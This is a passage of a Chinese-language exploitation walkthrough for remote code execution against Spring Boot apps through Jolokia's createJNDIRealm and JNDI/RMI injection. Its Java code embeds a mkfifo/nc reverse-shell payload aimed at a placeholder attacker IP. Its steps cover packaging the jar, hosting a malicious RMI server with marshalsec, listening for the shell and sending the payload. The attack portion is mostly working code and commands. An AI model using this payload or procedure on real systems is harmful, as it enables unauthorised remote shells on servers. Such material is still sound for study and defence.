 ```
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx xxxx >/tmp/f']).start()\")"));
         //反弹shell地址为xxx.xxx.xxx.xxx(ip地址)，端口为xxxx(端口地址)
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```



**步骤三： 打包java代码文件**

将编辑好的java代码打包成jar包

```
mvn clean install
或者
javac xxxxxxx.java
jar -cvf  xxxx.jar -C src/ .
```



**步骤四：架设恶意 RMI服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```bash
java -Djava.rmi.server.hostname=xxx.xxx.xxx.xxx -jar RMIServer-0.1.0.jar
```



**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvvp 监听端口
```



**步骤六：发送恶意 payload**

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行





##### 利用实例

查看/jolokia/list 中存在的是否存在org.apache.catalina.mbeans.MBeanFactory类提供的createJNDIRealm方法

